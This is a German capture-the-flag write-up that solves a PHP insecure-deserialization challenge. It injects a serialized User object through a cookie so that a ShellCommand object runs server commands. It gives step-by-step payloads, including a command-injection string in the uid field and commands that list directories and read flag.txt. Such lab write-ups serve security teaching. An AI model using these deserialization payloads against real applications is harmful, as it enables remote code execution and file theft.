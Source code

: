 # IMSUPERSERIAL

## Intro 
#### Vorüberlegungen 
* es gibt dieses ShellCommand - Objekt. Evtl. muss man ein serialized objekt davon erzeugen und das als cookie rein packen 
* dann kann man als attribut cmd nehmen dass über die shell die flag gesucht und angezeigt wird 
* hier evtl wieder den source code anzeigen lassen 
* der cookie von der Session hat das value "session"
* evtl muss man doch ein User Objekt erstellen und da aber iwie das shell objekt rein bauen? vllt auch nicht 
* die klassen haben beide eine methode __construct
* die kriegen halt nur andere paramter 
* evtl kann man hier property oriented programming anweden (wenn man so generische strukturen nutzt und nur klassen + attribute verändert)
* sieht aber schlecht aus mit ShellCommand objekt weil ich weiß nicht wie man das is_ok knacken soll
* aber was wäre wenn die flag in der Datenbank ist 
* dann bräuchte man nur ein user objekt und müsste mal vllt die session ids abändern 
* und die admin session finden 
* vllt ist dann da die flag 


#### Überlegung 1: über die Datenbank mit Query 
* in der DB heißt die eine funktion auch exec
* d.h. ich erstell einfach ein user objekt 
* tue in das DB attribut ein ShellCommand rein 
* bei reload sollte dann evtl die wakeup function ausgeführt werden 
* da kommt dann die datenbank query als parameter rein
* da mache ich dann in die userid die code injection dass im system dann folgendes steht: 
"SELECT * FROM SESSIONS WHERE uid=""; || echo $(ls);
* und das " könnte noch eine Fehlerquelle sein im objekt 
* (funktioniert nicht, weil es keinen query parameter in der exec() funktion von ShellCommand gibt)

#### Überlegung 2: 
* dann muss ich das komplett ShellCommand-Objekt da rein tun 
* die user construct methode wird doch eig gar nicht aufgerufen weil ja kein NEUER user erstellt wird 
* ich muss nur diese funktion wakeup callen (reload)
* dann muss nur das cmd auf das was ausgeführt werden soll gesetzt werden 
* (das hat funktioniert)


## Lösungsweg 
Hier liegt property oriented programming vor: Teilweise haben die Objekte die gleichen Funktionsnamen, d.h. je nachdem welches Objekt injected wird, wird auch dessen Funktion aufgerufen. 
Hier gab es drei Objekte (siehe imsuperserial.php): ShellCommand, DB und User. Das User-Objekt konnte über einen cookie injected werden. 

In dem User-Objekt wurde in der construct methode ein Attribut in Form eines weiteren Objekts erstellt: db mit einem DB-Objekt drin. 

Die DB-Klasse hat eine Funktion exec($query). Die Shell-Command Klasse hat auch eine Funktion exec(). Auch wenn die DB Funktionen einen Paramter erwartet, 
und die ShellCommand-Funktion nicht, heißen beide gleich. 

Die Construct-Funktionen aller Objekte wurden nur bei Neuerstellung eines Objektes aufgerufen. Wenn die Objekte injected wurden, waren alle ihre Attribute schon zugewiesen. 

Um die Aufgabe zu lösen, musste man nur Objekte injecten, aber keine neuerstellen. 

Man konnte ein User-Objekt als cookie einsetzen, das statt einem Datenbankobjekt für das Attribut db ein ShellCommand-Objekt enthielt. Diesem Objekt
konnte man das Attribut cmd hinzufügen, in das man dann einfach das Command rein schrieb, was auf dem Server ausgeführt werden sollte. 

Ein originales User-Objekt, was selbstständig von der Seite als cookie gesetzt wurde, sah so aus: 
```
O:4:"User":4:{s:3:"uid";i:1234;s:4:"name";s:5:"guest";s:2:"db";O:2:"DB":1:{s:9:"db_driver";O:8:"DBDriver":0:{}}s:6:"active";b:1;}
```
Die Query sah final so aus: 
```php
O:4:"User":4:{s:3:"uid";i:5555;s:4:"name";s:5:"mello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:63:"echo $(cd ..; cd ..; cd ..; cd opt; cat flag.txt); echo "woop";";}s:6:"active";b:1;}
```

Wenn jetzt die function __wakeup() augerufen wurde, was durch das Neuladen der Seite geschah, wurde über das Attribut db im user Objekt die Funktion exec ausgeführt. 
Da unser injiziertes User-Objekt aber ein ShellCommand-Objekt im db-Attribut hatte, wurde dessen exec-Funktion ausgeführt. 

Diese rief einfach nur das cmd-Attribut auf, welches ja ebenfalls durch die injizierung schon gesetzt wurde. (Die is_ok function wurde nie aufgerufen, weil kein neues ShellCommand-Objekt erstellt wurde.)


## ShellCommand Objekt bauen 
User Objekt: 
```
O:4:"User":4:{s:3:"uid";i:1234;s:4:"name";s:5:"guest";s:2:"db";O:2:"DB":1:{s:9:"db_driver";O:8:"DBDriver":0:{}}s:6:"active";b:1;}
```
Datenbankaufruf, wo ShellCommand rein muss: 
O:2:"DB":1:{s:9:"db_driver";O:8:"DBDriver":0:{}}s:6:"active";b:1;}

Shell Command: 
"; echo $(ls);

## Ausführung 
Die serialized php Objekte mussten immer **url encoded** werden und konnten dann als cookie eingefügt werden. 

#### Versuch 1: (mit query aufruf sozusagen/ Überlegung 1)
"; echo $(ls); // beendet erst die SQL-Query und guckt dann nach Files 
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:13:"; echo $(ls);";}s:6:"active";b:1;}
funktioniert nicht (Die DB-Query wird ja auch nie an die exec funktion des ShellCommand-Objekts geliefert)

#### Versuch 2: (nur das Command in das cmd-Attribut/ Überlegung 2)
Testcommand: echo $(ls);
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:11:"echo $(ls);";}s:6:"active";b:1;}
Das hat funktioniert: jetzt muss ich die Flag finden: 

#### Versuch 3
Ordner-Struktur darüber durchsuchen: echo $(cd ..; ls);
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:18:"echo $(cd ..; ls);";}s:6:"active";b:1;}
gefunden: Ordner html 

#### Versuch 4
Ordner-Struktur darüber durchsuchen: echo $(cd ..; cd ..; ls);
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:25:"echo $(cd ..; cd ..; ls);";}s:6:"active";b:1;}

#### Versuch 5
zum opt ordner navigieren: echo $(cd ..; cd ..; cd opt; ls)
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:46:"echo $(cd ..; cd ..; cd opt; ls); echo "woop";";}s:6:"active";b:1;}
der opt ordner ist leer

#### Versuch 6
search: find ~/ -type f -name "flag.txt" (nicht ausprobiert weil durchsucht nur home dir glaub ich)
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:54:"echo $(find ~/ -type f -name "flag.txt"); echo "woop";";}s:6:"active";b:1;}

#### Versuch 7
Ordner-Struktur darüber durchsuchen: echo $(cd ..; cd ..; cd ..; ls)
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:45:"echo $(cd ..; cd ..; cd ..; cd ..; ls -a); echo "woop";";}s:6:"active";b:1;}
Hier ist noch ein opt-Ordner

#### Versuch 8
in opt-Verzeichnis navigieren: echo $(cd ..; cd ..; cd opt; ls)
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"hello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:56:"echo $(cd ..; cd ..; cd ..; cd opt; ls -a); echo "woop";";}s:6:"active";b:1;}
Hier ist eine flag.txt im opt-Ordner!

#### Versuch 9
flag anzeigen: echo $(cd ..; cd ..; cd opt; cat flag.txt);
O:4:"User":4:{s:3:"uid";s:14:""; echo $(ls);";s:4:"name";s:5:"mello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:63:"echo $(cd ..; cd ..; cd ..; cd opt; cat flag.txt); echo "woop";";}s:6:"active";b:1;}
Das hat geklappt, flag wird angezeigt :) 

Final query, aufgehübscht: 
O:4:"User":4:{s:3:"uid";i:5555;s:4:"name";s:5:"mello";s:2:"db";O:12:"ShellCommand":1:{s:3:"cmd";s:63:"echo $(cd ..; cd ..; cd ..; cd opt; cat flag.txt); echo "woop";";}s:6:"active";b:1;}